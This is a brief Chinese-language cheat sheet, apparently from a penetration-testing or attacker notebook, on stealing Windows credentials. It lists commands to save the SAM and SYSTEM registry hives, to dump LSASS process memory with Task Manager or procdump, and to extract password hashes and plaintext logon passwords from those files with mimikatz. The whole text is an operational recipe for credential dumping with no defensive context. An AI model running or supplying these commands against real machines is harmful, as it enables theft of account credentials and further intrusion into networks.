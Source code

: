# 注册表读取密码

```
reg save hklm\sam sam.hiv  

reg save hklm\system sys.hiv  
```

出现两个文件 复制到mimikatz  

  复制到mimikatz 

`  lsadump::sam /sam:Sam.hiv /system:Sys.hiv`  

  内存中读取密码： win7 win08  点击 ­> 创建转存文件  

  2012不行  

  复制到 mimikatz  

  `sekurlsa::minidump lsass.dmp  `

  然后执行  

  `sekurlsa::logonpasswords full`  

  如果具有管理员及以上的权限 可以直接导出  

  `procdump64.exe ­accepteula ­ma lsass.exe lsass.dm `  

